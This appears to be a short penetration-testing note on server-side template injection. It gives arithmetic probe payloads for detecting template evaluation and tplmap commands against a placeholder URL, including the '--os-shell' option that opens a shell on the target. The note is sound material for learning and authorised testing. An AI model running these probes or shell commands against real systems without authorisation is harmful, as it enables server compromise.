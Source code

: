 Server-Side Template Injection (`SSTI`) is essentially injecting malicious template directives inside a template, leveraging Template Engines that insecurely mix user input with a given template.

We can detect SSTI vulnerabilities by injecting different tags in the inputs we control to see if they are evaluated in the response. We don't necessarily need to see the injected data reflected in the response we receive. Sometimes it is just evaluated on different pages (blind).

The easiest way to detect injections is to supply mathematical expressions in curly brackets, for example:

```html
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

### Template Fuzzing Flow Diagram
Try each payload and follow the green arrow if successful to determine the template engine
More payloads:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

![[Pasted image 20230706140630.png]]

### #Tplmap

You can also use automated tools like [TPLMap](https://github.com/epinna/tplmap)

```shell
cd tplmap/
source venv/bin/activate
```

```shell
./tplmap.py -u 'http://www.target.com/page?name=John'
```

Use `--os-shell` option to launch a pseudo-terminal on the target.
```shell
./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
```
